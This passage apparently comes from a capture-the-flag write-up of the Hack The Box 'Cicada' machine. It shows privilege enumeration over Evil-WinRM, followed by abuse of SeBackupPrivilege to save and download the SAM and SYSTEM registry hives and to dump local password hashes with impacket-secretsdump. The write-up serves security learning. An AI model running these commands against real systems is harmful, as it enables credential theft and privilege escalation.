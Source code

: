 ### Enumeration

```PowerShell
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Looks like Emily has both the `SeBackupPrivilege` and `SeRestorePrivilege`, which are good possibilities for privilege escalation.

### SeBackupPrivilege

I found a nice article [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) that outlines how to take advantage of the `SeBackupPrivilege` to make copies of the `SAM` and `SYSTEM` files, in order to extract secrets from the machine.

```PowerShell
*Evil-WinRM* PS C:\> reg save hklm\sam C:\Temp\sam.bak
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system C:\Temp\system.bak
The operation completed successfully.

*Evil-WinRM* PS C:\> cd Temp

*Evil-WinRM* PS C:\Temp> download sam.bak
                                        
Info: Downloading C:\Temp\sam.bak to sam.bak
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Temp> download system.bak
                                        
Info: Downloading C:\Temp\system.bak to system.bak
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Temp>
```

Now that we have the `SAM` and `SYSTEM` files, we can use a tool like `secretsdump` to extract the hashes stored on the system.

```sh
┌──(pl4stic㉿kali)-[~/htb/cicada]
└─$ impacket-secretsdump LOCAL -sam sam.bak -system system.bak
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
